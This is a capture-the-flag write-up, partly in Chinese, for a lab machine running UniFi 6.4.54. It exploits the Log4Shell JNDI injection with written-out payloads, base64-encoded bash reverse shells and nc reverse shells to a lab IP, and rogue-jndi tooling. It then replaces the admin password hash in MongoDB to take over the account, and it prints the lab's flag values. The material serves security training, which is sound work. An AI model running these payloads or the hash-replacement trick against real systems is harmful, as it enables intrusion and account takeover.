







<center>Unified</center>


[toc]


## Unified

> Unified


### 1. task

1. Which are the first four open ports?

```shell
```

2. What is the title of the software that is running running on port 8443?

```shell
```

3. What is the version of the software that is running?

```shell
```

4. What is the CVE for the identified vulnerability?

```shell
```

5. What protocol does JNDI leverage in the injection?

```shell
```

6. What tool do we use to intercept the traffic, indicating the attack was successful?

```shell
```

7. What port do we need to inspect intercepted traffic for?

```shell
```

8. What port is the MongoDB service running on?

```shell
```

9. What is the default database name for UniFi applications?

```shell
```

10. What is the function we use to enumerate users within the database in MongoDB?

```shell
```

11. What is the function we use to update users within the database in MongoDB?

```shell
```

12. What is the password for the root user?

```shell
```


### 3.flag

> 获取flag

* 信息收集

```shell
nmap -sV -sC $ip

PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to https://10.129.131.183:8443/manage
| fingerprint-strings: 
|   FourOhFourRequest: 
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
```

> 访问`8080`页面跳转了
>
> `https://10.129.147.42:8443/manage/account/login?redirect=%2Fmanage`

> cms: `unifi 6.4.54`
>
> 存在漏洞： [blog](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi)

```sell
JNDI注入：
${jndi:ldap://10.10.16.32/whatever}"
```



```shell
# 流量监控
sudo tcpdump -i tun0
```

> 虽然响应报错，但是`${jndi:ldap://10.10.16.32/whatever}"`正在执行

> JIDI注入工具： [github](https://github.com/welk1n/JNDI-Injection-Exploit)

```shell
# JIDI注入工具反弹shell
bash -i >& /dev/tcp/10.10.16.32/4444 0>&1

# 对shell进行base64编码
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4zMi80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}

# 工具执行
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4zMi80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}" -A "10.10.16.32"


# 另外一片博客
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "nc 10.10.16.32 4444 -e /bin/sh" -A "10.10.16.32"

# 开启监听
nc -lnvp 4444
```



> burp执行payload

```shell
"${jndi:rmi://10.10.16.32:1099/86j49q}"
```

> 方法二： `log4j`

```shell
# 环境
apt install openjdk-11-jdk
# 安裝maven
apt install maven

# 通過log4j漏洞拿到shell需要下載以下脚本：
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package

# 接下來在命令行中獲取shell的腳本 base64編碼，這裡的ip為自己的。
echo 'bash -c bash -i >&/dev/tcp/10.10.16.32/4444 0>&1' | base64

# 再使用java將生成的base64編碼填入，IP也要更換自己的。
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuMzIvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.16.32"

# nc 监听
nc -lncp 4444
```





```shell
# burp修改字段：
"remember":"${jndi:ldap://10.10.16.32:1389/o=tomcat}",

# user.txt
cd /home
ls
michael
cd michael
ls
user.txt
cat user.txt
6ced1a6a89e666c0620cdb10262ba127
```

* 提权

```shell
# 查看系统进程
ps
    PID TTY          TIME CMD
      1 ?        00:00:00 docker-init
      7 ?        00:00:00 bash
     17 ?        00:01:51 java
     67 ?        00:00:53 mongod
   6316 ?        00:00:00 bash
   6320 ?        00:00:00 bash
   6323 ?        00:00:00 bash
   6424 ?        00:00:00 ps

ps -aux | grep mongod
```



> google搜索UniFi Default Database可以发现，UniFi默认数据库为ace

```shell
# 客户端
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson)"

administrator / $6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.
```



```shell
# 从$6$可知，密码采用SHA512
$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.

# 既然无法破解，尝试是否可以使用新密码的sha 512 hash 替换原本的密码，使用mkpasswd工具：
mkpasswd -m sha-512 新密码
mkpasswd -m sha-512 admin123                                      
$6$NNKANutvVl7R.mfk$sysQ7tR/hrvihYcS/Snsi6GuIYwLs9rs/QLu0Rlsa3uHgmRTqe1FyfAOPximzmUCyVeXZvLSKetSQ3lFHxsbw.

# 修改密码
mongo --port 27117 ace --eval 'db.admin.update({"_id" : ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$NNKANutvVl7R.mfk$sysQ7tR/hrvihYcS/Snsi6GuIYwLs9rs/QLu0Rlsa3uHgmRTqe1FyfAOPximzmUCyVeXZvLSKetSQ3lFHxsbw."}})'

administrator/admin123
```

> 登陆网站。
>
> 获取到ssh密钥



```shell
# ssh登陆
ssh root@10.129.90.116

# flag
cd /root

cat root.txt
e50bc93c75b634e4b272d2f771c33681
```

